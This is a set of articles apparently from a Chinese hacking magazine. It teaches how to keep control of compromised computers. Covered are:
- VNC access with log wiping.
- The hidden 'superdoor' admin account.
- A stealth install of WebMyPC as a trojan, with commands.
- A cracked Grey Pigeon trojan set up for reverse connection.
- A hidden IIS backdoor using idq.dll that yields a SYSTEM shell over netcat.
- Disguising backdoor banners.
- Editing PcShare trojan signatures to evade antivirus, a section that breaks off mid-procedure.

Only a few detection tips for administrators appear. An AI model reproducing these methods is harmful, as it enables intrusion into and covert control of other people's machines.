`# mkdir -p /usr/local/vnc/classes`
`# cp classes/* /usr/local/vnc/classes`
3. 看看 Linux 系统是否安装了 Perl scripting 脚本语言，一般情况下在 /usr/bin/perl/ 目录下。如果没有安装的话你就要修改我们前面提到的 vncserver 安装脚本了，在第一行指定 perl 的目录。一般的 Linux 系统都安装了 Perl scripting 脚本语言。
4. 以 root 的身份(或者其它的用户)登陆系统，执行 vncserver，来启动 VNC 的服务器端，首先它会要求你输入密码。你这时候需要为 VNC 设置一个健壮的密码，这是一个非常重要的步骤。如果密码设置成功那么就会显示出这样一个信息：New ‘X’ desktop is 计算机名:x，如图 2。

在 Linux 平台中的 VNC 服务器端(vncserver)实际上是运行在一个自己的特制的终端服务器即：Xvnc，用来显示运行的网络中的客户端 vncviewer 的信息。
由于 VNC 内建了 Java Web 接口，这样就最大限度地实现了多操作系统间的互相控制。我们就可以在 windows 下来控制 Linux 了使用浏览器（注意不同的用户也可以开启 vncserver 服务，因此 VNC 的端口也在变化一般为 580x 和 590x）。

用 vncviewer(Windows 版本的)在控制 Linux 跟 Windows 稍微有点不同，在 vncviewer 中输入 IP:590x(端口)如图 3，图 4，Linux 中的 VNC 跟 Windows 中的有很大的不同。

```
[test@localhost test]$ vncserver

You will require a password to access your desktops.

password:
Verify:

Warning: localhost:1 is taken because of /tmp/.X11-lock
Remove this file if there is no X server localhost:1

Warning: localhost:2 is taken because of /tmp/.X11-lock
Remove this file if there is no X server localhost:2

New 'X' desktop is localhost:4

Creating default startup script /home/test/.vnc/xstartup
Starting applications specified in /home/test/.vnc/xstartup
Log file is /home/test/.vnc/localhost:4.log

[test@localhost test]$
```

图 2


图 3


图 4

大家都知道在 Windows 中如果你使用 VNC 来控制你的肉鸡的话很容易被发现，因为远程控制的人跟当前系统用户使用同一个会话。在 Linux 中使用 VNC 的效果却跟使用 win2000 的终端服务差不多，但是所登陆的用户跟当前系统的用户的会话是不一样的。比如我们已经知道了用户 test 已经登录到了服务器，我们远程通过 VNC 来登录服务器，所用的账户也是 test，这时系统所列的用户列表中的 test 的会话是不一样的，如图 5，这样我们就可以远程使用 Linux 了。多亏有了 VNC 这样我们就可以不受工具的约束，随时与我们的 Linux 主机联系。


图 5

下面我们来说一说 VNC 的日志问题，比如你通过 VNC 控制了一台 Linux 的肉鸡，在你所使用的用户的目录下会生成一个“.VNC”的文件夹，里面有通过 VNC 访问主机的日志记录和 VNC 相关的一些设置。如果你使用 VNC 控制 Linux 肉鸡的话，我想你应该知道怎么来消除日志了吧。
如果你的工作或者学习需要经常往返于 Windows 跟 Linux 的话，我想 VNC 一定是一个不错的选择。VNC 是双刃剑就看你自己是如此使用了！
（本文所涉及到的 VNC 的 Linux 版本为 3.3.3r2 已收录到本期光盘中）

## 牧马记


近日在网上瞎逛的时候突然发现一个好东西——superdoor，它能在肉鸡上建立隐蔽的超级用户，而且建立的用户无论是用命令行还是计算机管理都无法看见你建立的帐户，下面就让我们一起看看这个神秘的后门。

Superdoor的体积十分小巧，才70K，这可以和winshell一较高下^_^。

首先把我们的后门传到肉鸡上去，你可以用tftp、ipc、ftp传上去，这里我用的是radmin，如图1。


图1

传上去之后，我们用终端登陆肉鸡，如图2。

找到我们刚传上去的superdoor，双击运行，但是要注意superdoor的运行需要vb6.0运行库的支持，如果你的肉鸡上没有，那你可以给肉鸡装上一个。把VB运行库放在肉鸡的x：\winnt\system目录下既可（X是肉鸡的系统盘）。

运行完后，我们在肉鸡的cmd里输入superrdoor 用户名:密码（如图3，我把superdoor改名成door了）。这个后门就配置完成了，是不是很简单呢？


图2


图3

我们用net user看看我们的用户，如图4。

```
Microsoft Windows 2000 [Version 5.00.2195]
<C> 版权所有 1985-2000 Microsoft Corp.

C:\WINNT\system32\sys>net user

\GZZGTJ 的用户帐户

-------------------------------------------------------------------------------
Administrator            Guest                    IUSR_GZZGTJ
IUSR_GZZGTJdx          IWAM_GZZGTJ             perl
TsInternetUser
命令成功完成。

C:\WINNT\system32\sys>_
```

图4

根本看不见我们刚才建立的用户，再去计算机管理中看看，如图5，也看不见的，真是杀人灭口必备良药呀！


图5

那作为网管，是不是就没有办法解决了呢？别急，我把解决办法告诉大家，让它现出原形。

第一种方法：根据作者的介绍，在注册表里依旧是可以看见我们的这个用户的，如图6，这样就可以删除这个隐藏用户了，但是在删除的时候注意，不能打开CMD，否则会报错。


图6

第二种方法：我发现在进入cmd之后直接用net user是查看不到用户，但是这时候你只需要在查看用户时输入个别的命令先，例如cls(清屏命令)，再用net user查看，这个用户也会现形，不知道这是不是作者没有处理好的地方？

（文中所涉及的工具superrdoor和VB6.0运行库已经收录到本期光盘中）


## 牧马记

近来很是怀念 RPC 漏洞流行的岁月，那时手里握着一大把肉鸡，深夜睡梦中都会笑出声来。可是几天前检查我的肉鸡时，发现所有的肉鸡都不翼而飞了，有的换掉了 ip 有的关掉了 3389 端口，有的帐户被锁定或删除了。近日来用 DameWare 溢出又搞到了几台肉鸡，于是我决定找一个好后门来牢牢控制住它们。我想找的后门要求很简单，一是不能被杀毒软件查杀，二是肉鸡换掉了 ip 我也能及时知道，三是最好能图形界面来控制肉鸡。我根据这三条要求，在网上找呀找呀，终于找到了由科迈网(www.dns0755.net)出品的一款远程控制管理软件。一下 webmypc 的简介，非常诱人：它是用浏览器遥控远程计算机的，因为 WebMyPC 本身是基于 Java 的应用，所以它可以使用包括掌上电脑、手机、PDA在内的所有支持 Java 浏览器的设备来进行远程遥控计算机，这很新奇吧！并且它支持公网与内网，肉鸡即使动态 ip 我们也能找到它，支持代理服务器、支持文件上传和下载、支持断线重连、支持复制和粘贴，控制 PC 时是采用双密码、双认证的方式，对重要数据进行加密、私人密码不在网上传送。这些功能对常玩木马的人来说也许还算不上什么，可它至今没有被列为后门病毒，这对黑友们来说真的是一个极大的诱惑。

让我们先来看一下如何在图形界面下安装这款木马。木马的被控端你可在 http://www.dns0755.net/client/wpc.zip下载到，压缩包大小仅仅 245kb，解开 wpc.zip，你会看到如下文件：

- webmypc.exe：主执行文件。
- windesk9x.dll：动态链接库。
- wpcclient.jar：JAVA 客户端。
- webmypc.ini：配置文件。由 webmypc.exe配置后自动生成，不需人工修改（没有配置webmypc.exe 时，没有此文件）。
- webmypc.log：日志文件。

我们把这几个文件都传到3389 肉鸡的某个目录下，例如c:\webmypc，然后直接运行webmypc.exe。
因为第一次运行时，没有配置文件，会出现图 1 所示的窗口。


点击确定后出现配置窗口（图 2），配置窗口分为六部分：
1 用户信息（必须输入）：这里的登陆名称和登陆密码，可先在 http://www.dns0755.net/register.php 注册一个，很简单的。“电脑名称”和“私人密码”你可随便写，“电脑名称”用于区分都装有

## 内网木马
## WebmyPC
## 应用详解

webmypc 的不同肉鸡，“私人密码”是连接肉鸡时的密码。

2 多重联接选项：是指允许多人通过WebMyPC 访问同一肉鸡，进行多重联接，多人共享一个桌面。这可运用在远程教学中的。

3 文件共享：这个最好设置上，这样才能在肉鸡与本机进行上传下载。

4 当远程联接到本机时：是否允许控制肉鸡的鼠标和键盘。

5 当远程断开联接时：对肉鸡采取的动作。
6 联接方式：我有公网 IP，如果运行 WebMyPC 的电脑有公网 IP，请选择此项（经我试验，肉鸡有公网 ip，这项可不选）。选择后“主端口”和“辅端口”必须填上，或者用缺省端口 3301和 3302。如果这台电脑有防火墙，请务必把这两个端口开放（方向为入站），否则 WebMyPC 无法工作。如果选择公网方式，而且控制端通过代理服务器上网，WebMyPC 的主端口必须要设为443。
代理设置：WebMyPC 支持如下代理：


透明代理（实际上就是 NAT）、HTTPConnect、Socks4、Socks5，如图 3。
菜鸟如果觉得设置麻烦，可只输入用户信息（必须输入），其他都可采用缺省值，什么也不用写。
设置完成了，此时可用 IE 登录科迈网。进入http://www.dns0755.net/wpclogin.php 页面，就可看到已登录的被控端机器。但是小心了，因为这样安装，在肉鸡系统托盘里会存在一个 webmypc 绿色小图标，如图 4。


作为黑客 FANS，这是我们无法容忍的。在托盘图标上按鼠标右键会弹出菜单（图 5），我们点击“安装 Windows服务”选项，将 webmypc 安装为系统服务。这样安装后，webmypc 的默认服务名是webmypc，服务描述是“WebMyPCServer”。我们再去启动系统服务面板，将 webmypc 服务启动。这样，我们关掉小图标后，webmypc 被控端程序仍然是运行的。好像一切都很完美了，但这样的确不行，因为肉鸡重启后，小图标仍然会顽固地冒出来。后来经过我反复测试，发现只要将注册表中HKLMSOFTWARE\Microsoft\windows\currentversion\run 下的键值webmypc 删掉即可（图6）。这样，客户端在肉鸡才算安装完成，啰嗦了这么多，其实配置很简单，只需 2 分钟即可完成。

- 显示日志(L)
- 参数设置(P)
- 断开所有连接(D)
- 安装Windows服务(I)
- 删除Windows服务(R)
- 关于 Web My PC (A)
- 关闭(C)


如何使用 webmypc？我们用事先注册


## 牧马记

好的用户名和密码登陆 http://www.dns0755.net/wpclogin.php，可看到已登录的被控端机器，从图 7 中能清清楚楚地看到四台肉鸡被我操控，点击图中的“直连”，会弹出一个浏览器窗口连接被控端机器（图 8），输入私人密码，即可看到远程机器的桌面（图 9）。


要注意的是，如果看不到上面出现的“Web My PC 验证”窗口，很可能是因为没有 Java 虚拟机。因为微软自 WinXP 之后取消了 Java 虚拟机。如果你使用 WinXP/2003 来远程控制远程机器，请先在 http://java.sun.com/webapps/download/AutoDL?BundleId=8710 下载 Java 虚拟机并安装。Java 虚拟机只需要安装控制端，不需要安装被控端。webmypc 的控制端功能一目了然，和操作本地电脑一模一样，你应当很容易上手。这里我只来讲一下文件传输功能。

点击“文件传输”，会出现一个新的浏览器窗口，列出远程机器上共享目录的内容。点击“文件名”即可下载，上传可用浏览表单提交（图 10）。

共享目录清单事先在 WebMyPC 配置里指定，共享目录可在 WebMyPC 不是服务状态运行时随意修改，修改后立即生效，不需要重启 WebMyPC。要注意的是，如果要下载中文名的文件，请在浏览器里设置：“工具→Internet 选项→高级→取消‘总是以 UTF-8 发送 URL’”。


| 目录：/ |  |  |
| ---- | ---- | ---- |
| 上传 |  |  |
| 文件名称 | 建立日期 | 大小 |
| dns0755 | 2003-11-16 18:47:26 | 512 B |
|  | 2003-11-16 18:47:04 | 512 B |
|  | 2003-11-16 18:47:34 | 512 B |
|  | 2003-11-16 18:47:12 | 512 B |

看了我以上的介绍，各位黑友是不是想在自己的肉鸡上装一个 webmypc 来试试呢？可手里并没有 3389 肉鸡？所以这里我也把命令行下的安装配置方式讲解一下。

我们先在本机以图形界面来配置完成 webmypc。配置完成后，应当会在 webmypc 所在目录下多生成一个 webmypc.ini 文件。我们把 webmypc 目录下的 webmypc.exe，windeskxp.dll、wpclient.jar、webmypc.ini、webmypc.log 这 5 个文件全部传到肉鸡的 %system32% 目录下。然后运行以下两个命令：

```
webmypc.exe -install
net start webmypc
```

如图 11，这样 webmypc 会在肉鸡上以服务方式启动了。但仍然要注意，肉鸡重启后会冒出那个讨厌的绿色小图标。在命令行下更改注册表，我喜欢用 reg.exe 这个小工具，没有的朋友可在 haiyangtop.533.net/reg.exe 下载到。我们将 reg.exe 传到肉鸡的 %system32% 目录下，运行 reg.exe delete HKLM\SOFTWARE\Microsoft\windows\currentversion\run\webmypc，将 webmypc 随机显示托盘的注册表值去掉（图 12）。这样做完后，我们就可用 IE 在图形界面下再次控制肉鸡了。


这款木马虽然好，但我在使用过程中也发现了一个安全问题，那就是我们配置的 webmypc.ini 里明文保存着我们在 www.dns0755.net 的登陆用户名，注册密码和连接肉鸡密码只是简单加密。所以，提醒使用这个木马的朋友，在 www.dns0755.net 注册时最好填写虚假资料，登陆名和密码不要和自己的 QQ、论坛、邮箱密码一样，小心驶得万年船呀！另外，删除这个木马也很简单，停掉 wemypc 服务就可以了。现在还没有任何杀毒软件将 webmypc.exe 列为木马，各位黑友快快试试吧！相信 webmypc 不会令你失望的！

（文中所涉及的软件：webmypc、Java 虚拟机、reg.exe 已经收录到本期光盘中）

## 局域网控制局域网

这几天，在各论坛闲逛，时不时会看到有些黑迷们会问有没有局域网控制不同域网的木马，通常说是内网控制内网，说白了，也就是不同网吧控制不同网吧的电脑。

遍览各大论坛（夸大了点…），也没有找到这种木马（臭鸡蛋仍过来？我挡），你们也许会问，IRC 木马不就可以吗？对，我不否认用 IRC 木马玩 DDoS 还可以，但它能屏幕控制吗？不可以吧（哦，如果哪位大虾会的话，可以教教俺们菜鸟）！也许还有人要问：木马风雪不就可以吗？说句实话，木马风雪做的还是很不错的，速度也不比其他木马差，但你想要在网吧控制其他网吧，就必须有一个中转站，而且这个中转站必须是明态上网的（注意：这个中转站，下文也要提到，只是性质不同）。所以我写这篇文章，为的是那些既没有中转站，又在网吧上网，还想玩木马的黑迷们。

硬核 V3.5完全 2003 2004年合订本(下册)

23

## 牧马记

我们要用到工具如下：

- 灰鸽子VIP1.1破解版（下载地址：http://www2.17735.com/download/down.asp?id=1511&no=1）
- 内网建站专家（DynamicHost，下载地址：http://www.oklan.com/download/redirect.asp?clientversion=2.0.030930）

首先，说明两个工具的用处，灰鸽子就不说了吧？DynamicHost 看网象给它的定义：完全不需要在出口网关或者代理服务器上做任何端口映射或安装、设置任何辅助软件，就像拥有公共动态IP地址一样，轻松发布各种互联网服务。不明白的可以到这里看：http://www.oklan.com

然后我们到 http://www.oklan.com/register 注册一个免费用户。第一步：点“免费试用”来到如图1的位置，注意这里是关键，我一般是默认，因为我是在网吧上网。第二步：填写你的注册资料，注意邮箱要好用的呀！因为注册码要发到你的邮箱里，这里顺便说一下，商家说你只能免费用7天，但对我们没有什么影响，因为过期后，我们再去注册。第三步：得到你的账号注册码。说明一下我注册的资料，这些后面要用到。

- 域名：hackerxfiles.dhcn.net
- 注册码：HSDUJT02-3LM4ETF6
- 注册类型：内网专业版


接着打开网站http://www.oklan.com 把注册码填到“用户控制台”签认，紧接着点“WEB Client”，一定要选最后那项（图2），然后点更新，最后签出。

6 和下面指定的域名同步更新对应IP


把下载下来的DynamicHost点击安装，安装成功后，双击DynSoapSvr.exe 和DHUserCtrfg.exe，弹出图3所示窗口，填上注册码（我这里 是 H S D U J T 0 2 -3LM4ETF6）。点击“开通”后，单击“域名设置”那项。如果你上面没有做错，应该默认第二项（图4）。


再单击“站点推广”那项，按住Ctrl把所有提供的服务全部选上（图5），最后按“应用”及“确定”。这时屏幕右下角的小电脑图标应该是发亮的，或者把鼠标放那里应该显示“动态主机服务*****(在线)”字样。


DA-1-1 10:21:16 - 网络验证身份成功! 程序以注册用户身份运行!


安装灰鸽子VIP1.1破解版（提醒：如果大家有钞票的话，还是买正版吧，支持国产共享软件！谁打我？敢用砖头砸我，给我站出来），也没有什么要说的，只要按照说明安装就可以了。重点提醒：一定要按照说明做，不然不会得到图6所示的结果。

最后，打开灰鸽子客户端，注意：是H_Client.exe，而不是H_Client1.exe呀！因为用H_Client.exe它才说你是“与注册用户运行”。单击“配置服务程序”，填上你的资料，生成服务器，我这里用的是http://my.126.com/ 转向域名（我只填了转向域名就点生成服务器了，只是做个示范，但大家一定要好好填呀！不要搞破坏）。再单击“自动上线”，同样填上你的资料，更新IP到域名，如图7（特别提醒：修改你的URL，这里一定要填上面得到的域名，我的是http://hackerxfiles.dhcn.net/）


最后，我来说明一下局域网控制不同局域网的总流图：


> 声明：这个方法可能带来较大的负面影响，所以特此声明：用此方法造成的后果与本人及《黑客X档案》无关！且稿件将捐给希望工程，请大家支持！本文所涉及的软件：灰鸽子VIP1.1破解版、内网建站专家DynamicHost已收录到本期光盘中

32 黑客X档案 2003 2004年合订本(下册)

## IIS后门重现

我想大家一定还记得原先的 IIS 配置文件后门，它制作隐蔽功能强大，能穿透防火墙，简直是趋于完美的后门，但是 SP4 补丁的出现，使得 IIS 后门消失了，十分的令人惋惜，但不甘心的我经过一段时间实验，终于在 NTFS +SP4 下用另一种方法使这个 IIS 后门再现了（在 2000 + NTFS + SP4 下测试成功）！不敢独享，现在就详细的介绍给大家！

先介绍一下它的优缺点：

- 1. 十分隐蔽、不开端口、不开进程，在 IIS 管理器中不留任何痕迹。
- 2. 功能强大，能穿透防火墙，同时具有高于管理员权限的 SYSTEM 权限。
- 配置较复杂，一般用于有重要价值的肉鸡上。

原理：如果一个虚拟目录有执行权限，同时这个目录的应用程序映射对某一特定后缀的文件进行解析，那么我们对这个目录请求特定的文件时，IIS 就会交给指定的 DLL 文件去处理（合法的例如 ASP 文件），如果我们指定的解析文件是一个 DLL 后门的话，那么我们提交特定的文件时，IIS 就会启动后门。而幸运的是，网上广为流传的 idq.dll 就是这样一 个后门，更令人兴奋的是它能穿透防火墙，我们再结合 WIN-DOWS 的缺陷，就能做出十分隐蔽的后门了！

制作：制作过程比较麻烦，请大家一定要细心，OK，FOLLOW ME！

### 一 建立新的虚拟目录

首先，我们先把 idq.dll 这个后门拷贝到一个安全的地方，我拷贝到 c:\winnt\system32\idq.dll，然后在资源管理器中切换到 IIS 的主目录，我这里对应的是 d:\web\文件夹，在的 d:\web\文件夹下新建目录 lh，此时我们在 Internet 服务管理器中就可以看到这个新建的目录了，在服务器管理器 lh 文件夹上点右键，选新建虚拟目录（图 1），弹出“虚拟目录创建向导”的对话框，在第一步“别名”我们起 door，第二步指定的目录选 C 盘就可以了，（以后还可以通过这个虚拟目录来浏览操作他的 C 盘呢），第三步，在虚拟目录的权限选择中，选择所有的权限，尤其是执行权限（图 2），最后点击完成。此时我们在 Internet 服务管理器中就可以看到这个目录 lh 下的虚拟目录 door 了。


### 二 设置应用程序映射

接下来我们在 door 虚拟目录上创建应用程序映射，在虚拟目录 door 上点右键（注意，要在 door 虚拟目录上，因为这只是针对这个特定目录的配置，在 WEB 站点的属性里是不显示的，非常的隐蔽），选择“属性”，在其“虚拟目录”的选项卡中点击“配置”按钮弹出“应用程序配置”对话框（图 3），在其“应用程序映射”选项卡上，我们可以看到很多已经配置好的映射如 asp 文件映射到 asp.dll，其实我们提交的 asp 文件请求都是 asp.dll 处理后返回给我们的，我们点击“添加”按钮，在弹出的对话框下面的“文件类型”选择 DLL 文件，在可执行文件的路径选择我们放好的 idq.dll 的路径，在扩展名一栏添 .lh（当然你也可以添其他的扩展名，随便取起一个别人想不到的，不用怕管理员发现，因为过一会我们要删掉的）点“确定”后，就可以在“应用程序配置”中看到我们新添加的映射，这意味着所有对该目录下 .lh 后缀文件的请求都将交给 idq.dll 文件来处理。

### 三 修改 IIS 应用程序保护级别

我在这里走了一些弯路，开始我认为把计算机的 IUSR_COMPUTERNAME 和 IWAM_COMPUTERNAME 用户提升到管理员权限就可以了，没想到测试的时候竟然还是 GUEST 权限，我以为是设置没有生效，于是重启了 IIS，可发现还是不行，于是改了方法，在 WEB 站点上（注意这里是 WEB 站点）把 IIS 主目录下的应用程序保护的属性改为低了，以为可以了，谁想竟然还是 GUEST 权限，当时是真不知道哪里错误，山穷水尽疑无路，柳暗花明又一春，随手乱翻中无意发现我们设置的虚拟目录也可以设定 IIS 应用程序保护的级别，和 WEB 站点一样，点右键选其属性即可，令我们惊讶的是原来他的 IIS 应用程序级别和 WEB 站点是分开的，此时 WEB 站点是低，而他依然是默认的中！哈哈，这下好了，我立刻将其改为低（图 4），再测试，哈，立刻获得 SYSTEM 权限！原来这个虚拟目录设置和整个 WEB 站点的设置是独立的，不仅是这一点，几乎所有的都是独立的！


### 四 最后的利用

切换到 Windows 资源管理器，这里一定要注意不是在 Internet 服务管理器中，将我们建的 lh 目录删掉，这时你可能要问，删掉了，还怎么使？其实这是一个 Windows 的缺陷，因为我们的虚拟目录对应的是 c 盘，你可以尝试在浏览器中输入 http://ip/lh/door/ 看到了什么？呵呵，他的 C 盘文件，你可以下载它们，还可以用 IIS 命令编辑他们（图 5），而你切换到 Internet 服务管理器却发现根本没有 lh 这个目录，更没有 lh 下的 door 这个虚拟目录了，发生这个问题的原因，是 IIS 的配置是通过系统目录下 inetsrv 目录中的 metabase.bin 来实现的，在创建虚拟目录后，IIS 已经将映射的

## 牧马记


路径写入了该文件，但是IIS管理器对文件夹的管理是一种系统的枚举，所以在硬盘中删除了1h文件夹，IIS中就看不见了，但metabase.bin这个文件的中的信息还是没有被删除，所以我们一旦访问，IIS 就会从metabase.bin中读取映射，直接转到C盘，而IIS管理器中是什么也看不见，并且因为我们所有的一切都是在door这个虚拟目录设置的，所以在WEB站点属性中，也没有添加新的映射，IIS应用程序保护进程还是中，--切都没有变化。


我们的后门已经完成了，还没乱吧，我们来测试一下，切换到CMD中，进入NC键入命令nc -vv ip 80（-vv表示显示详细的信息），NC会返回一些连接的信息，如下：

```
home-lihe [192.168.0.1]
<http> open
```

表示已经连接到了HTTP端口，然后键入IIS命令get /lh/door/s.lh，这个s.lh文件的文件名随便取，只要后缀是1h 就可以了，按两下回车，屏幕会显示We Got It!，然后按一次回车，就出现了我们熟悉的CMD命令行，加个用户看看，呵呵，SYSTEM权限吧（图6）！下面做什么，各位黑虾请便啦。


一个很隐蔽的后门就做好了，既隐蔽又强大，你是否满意呢？补充一点idq.dll是会被杀毒软件查杀的，所以我这个带给大家的是一个没有加壳的idq.dll，随便加个壳就可以躲过杀毒软件了，最后如果有什么问题，欢迎到黑客X档案的论坛和我讨论。

（文章中所涉及的未加壳的idq.dll本期光盘已收录）

## 别闯进我的“后花园”

Leo

Banner，金山词霸解释为：“旗帜，横幅，标语”。

而在我们所涉及的计算机领域里面，也有不同的几种理解。最常见的banner就是一些网站首页中作宣传的那种长条型flash或gif动画（图1）。


这里的banner就理解为“横幅”了。

还有另一种解释是“标志性的文字”，举个例子：记得以前常用的判断web服务器是什么系统的方法，就是telnet服务器的80端口，然后在无回显状态中输入get，再多按几次回车，就会和主机失去连接，并且得到服务器的一段www服务的“banner”（图2）。


瞧，是IIS5.0，一般来说就是Win2000了。但banner也是可以伪装的，这只能作为大概判断而已。

第三种解释我理解为“提示性标志”，这也是我要讲的重点，就是后门软件中的“banner”一词了。请看winshell中的说法（图3）。


这里的password banner意思是“密码提示标志”，(80)是指这段password banner字符串的最大长度是80个字节。下面的“password：”就是默认的banner了。那banner有什么作用呢？软件设计者是为了方便用户登录时可以清楚的看出什么时候该输入密码（图4）。

```
E:\Documents and Settings\Leo>nc 127.0.0.1 5277
E:\Documents and Settings\Leo>nc -vv 127.0.0.1 5277
DNS fwd/rev mismatch: localhost != Leo
localhost [127.0.0.1] 5277 (?) open
Password:
```

banner如果用在普通应用软件中倒没有什么问题，但是在间谍软件里，有一个固定的登录banner却不是一件好事。

所以，winshell的作者孤独侠客便把winshell中的banner设置为可以自定义，避免banner泄露后门信息。

那么banner是怎么泄露秘密的呢？我也是偶然发现的。

前些日子serv-u5.0的漏洞流行的时候，我对一台学校内部的电影服务器做了渗透测试，正好也有机会看看这个漏洞的exploit的成功率有多大。由于当时漏洞刚出来不久，服务器还没有升级serv-u到5.0.0.4，所以很简单就得到了system的shell，然后加了管理员用户，测试就结束了。因为服务器开了3389终端服务并且没有做ip过滤，有了管理员帐号，就基本控制了它。测试到此结束。正准备到学校bbs网络安全栏目发布安全通告，突然一想，顺便看看这台机器其他方面的安全性吧。于是用superscan先从外部扫描端口，不看不知道，一看吓一跳（图5）！


端口虽然开的多了些，倒不是大问题，因为我是在机房扫的，如果在路由器外面，是不会看到这么多端口的。最让我注意的是那个3023端口，就是图5中箭头指的地


## 牧马记


winshell 的三种配置安装后用 superscan 扫描的情况：
1. 空密码，默认端口，默认 banner（图6）。
2. 有密码，默认端口，默认 banner（图7）。
3. 改了端口，设了密码，改了 banner（图8）。登录 shell 的时候在 banner 后面输入密码就行了，banner 只是起标志性的作用，没有什么实质的效果。

方，这个端口的扫描端口返回了一个 banner，内行人一看就知道这是个很强的后门（本来还开了个3056端口，这个端口的 banner 是 "login: "，图5是后来撤的，那个3056已经被我弄没了，所以没显示出来）。从以上两个端口就可以看出这台机器已经被装了 wineggdropshell 后门。我倒吸了口冷气，原来这台机器早就有人进去过了。难不成是管理员自己装着玩的？不知道这位入侵者的来历，估计是本校的人，但万一他把这台机器出卖、公布给了外面人那就麻烦了，影响我们学校声誉的。我查了一下帐户，把他做的隐藏帐号删了，而且探测到没有帐户被克隆。然后就是卸载 wineggdropshell。可是这个后门我不是很了解，没用过。删的不完全，都是用手工的，所以还留下了个3023端口，但是这下后门已经失去作用了，只是留下程序“尸体”而已，学校的官方服务器啊，不敢乱动。本来这个 wineggdropshell 是可以被杀毒软件查出来的，可是对方用 FSG 加了壳，很强悍的壳哦，而且这个东西是用 svchost 启动的，进程杀毒也查不了。反正用这台机器上的正版 norton 是没查出来。其他的我没有机会试。我认为 Kaspersky 能查出来的，不是做广告，卡巴斯基（Kaspersky）的确很强的。


上面三个例子很容易看出最后一个隐蔽性稍微强一点了吧？
这里只是举个关于 banner 方面的例子而已，后门需要配置的地方还很多。总之，知己知彼，百战不殆，对于入侵者，你要站到管理员和同行的角度，看看你的后门还有没有缺陷；管理员则需要了解一些常见的黑客入侵手法，来巩固自己的防御。
好了，就此搁笔，其实还有很多想说的，但每期杂志的空间都很宝贵，不容我多逗留。如果大家认为我上面的理解中有不合适的地方，可以在下期的补丁铺发表，或者上论坛发帖子。
最后赠送给大冢上面提到的 FSG 加壳工具，新版本，很难找到的哦，这个东西给软件加壳成功后会有一声女人的尖叫，千万别吓着您！
（本文中所涉及的如下软件光盘中均有收录：FSG、wineggdropshell。）

从整个检查过程中可以发现，这个人侵者不是菜鸟，从帐号的伪装到后门的放置都是精心研究过的，可是没想到强大的 wineggdropshell 的一点点登录消息竟把精心的伪装全暴露了。站在入侵者的角度不得不说这是一种遗憾。不知道这个 wineggdropshell 的 banner 能不能修改，像 winshell 一样，或者索性去掉，没有回显没关系，有感觉就行^_^。
Banner 泄露登录者的信息其实大家应该能想到，但是有些人总以为自己设的端口别人一般不会连接，所以就忽视了 banner 的伪装。可对于扫描器来说，它对各个端口都是“一视同仁”的。

这件事带给我们两方面的启发：作为一个管理员，不但要学好正规的网络和软件知识，一些“歪门邪道”也要了解，如果你没听说过 wineggdrop 或者 winshell 这些名词，那你也许就不会发现一些粗心的黑客开的后门端口。服务器配的再好，也不可能避免一些组件哪天被溢出的命运，配置服务器不可能是一劳永逸的，要机器为你努力的工作，你就必须常常去关心她。
作为一个入侵者，你要对付的不仅仅是目标机器的管理员，更有挑战性的对手就是你的同行！
同行是冤家，这话一点不假。虽然说有时候可以大度点，共享肉鸡就是了，但人心隔肚皮，除非对方是你熟悉的，不然你能保证你不踢他他不踢你吗？不管谁踢谁，总的原则不能忘，肉鸡要当自家鸡养，这话就是说不要去破坏，大家基本都是年轻人，而且都比较有个性。有人想“我得不到的你也别想得到”，于是把盘格了，甚至把 BIOS 刷了，那可不好。
不好意思，说了些废话，跑题了。只是希望大家特别是刚入门的朋友有点体会。


回正题，一个人侵者在配置后门的时候有必要考虑好 banner 的使用，那些后门软件的作者总会在软件中加入一些广告宣传性的 banner，以增加自己软件的影响力，或者是表明自己的软件不是木马，而是提供远程控制或 telnet、ftp 的迷你服务器。

至于那些只提供固定 banner 的后门最好不要用，自己的后门要有特定的 banner：你能认出是后门，人家认为是系统服务。请看下面的对比：

# 孤独残虫 [牛族]

每一次的人侵完成后，大家总是或多或少的上传一个或多个木马后门程序进去，以便下次可以轻松的进入肉鸡，然而大家大部分使用的木马后门程序都是网上发布出来的，这些公布出来的程序多则一个星期就会被杀毒程序列为查杀的目标，不被查杀的是那些高手未公布出来的木马后门程序，所以菜鸟们都会认为使用不被查杀的木马后门是黑手的专利，埋怨自己不会编程，不会反汇编后木马后门来躲避杀毒软件。

现在我们就来修改以 PcShare 2.0（21cn 出品的木马）为例，让木马后门程序躲避杀毒软件的查杀。

木马与杀毒软件的斗争一直在进行着，冰河自停止开发后，网络上出现了很多所谓的“个人版”、“绝版”等，其实是修改了冰河的相应资源后打包制作出来的，从开始的脱壳然后加壳（或加密）到现在的查找特征码、修改特征码来躲避杀毒软件的查杀，由于杀毒技术的发展，简单的脱壳再加壳（或加密）现在已经不再管用。杀毒软件是提使程序中的某一段数据作为特征码，我们就要在程序中找到这段特征码，将其修改，就可以轻松的躲过杀毒软件的查杀。下面我教大家使用分离筛选法查找特征码，其原理是这样的，先将软件分离成若干模块，筛选出特征码所在模块，然后再将特征码所在模块分离成若干模块进行筛选，直到找到特征码为止。

有了特征码就可以进行修改，大家可能会担心自己不懂汇编，不能自己反汇编修改，其实这种担心是多余的，在这里我会教大家便捷的方法，只要你知道MOV就是转移指令，不知道可以查看一下汇编指令列表，当然你懂得汇编会更好。

我们现在开始动手吧，先用PEiD查看是用PECompact加的壳，用专门脱PECompact壳的软件UnPECompact来脱壳，如图1。


现在我们得到一个名为“已经脱壳.exe”的无壳文件，用资源修改软件ResHacker打开“已经脱壳.exe”，我们会看到资源菜单栏中最上面有个“EXE”，如图2。


我们用鼠标右键点击它，选择“保存 [EXE]资源”，将EXE资源另存为123保存，这时在保存资源的目录中出现了“123.rc”、“Data_1.bin”、“Data_2.bin”、“Data_3.bin”，我们查看这些文件的大小会发现“Data_2.bin”和PcShare 2.0生成的服务端大小是一样的，“Data_3.bin”和PcShare 2.0 0用于和服务端进行通信的PcManage大小也是一样的，其实这两个文件就是未进行配置的服务端和PcManage文件，只是扩展名改变了而已，我们将其扩展名改为.exe，用PEiD查看Data_2.exe也是用PECompact加的壳，用UnPECompact脱壳。用Hex Workshop打开已经脱壳了的Data_2.exe，分成若干段来修改Data_2.exe的16进制代码来破坏Data_2.exe中的特征码，然后根据杀毒软件扫描结果来判断特征码所在大体位置，再缩小范围查找，直到找出特征码。

以瑞星2004和kv2004为例说明（其它的杀毒软件方法相同）从地址00010008开始，以0000后面的第一个数字为分段码，如0001xxx为一段，0002xxx为一段，以此类推。我们将代码段00001xxx段用鼠标全部选中，如图3、图4。


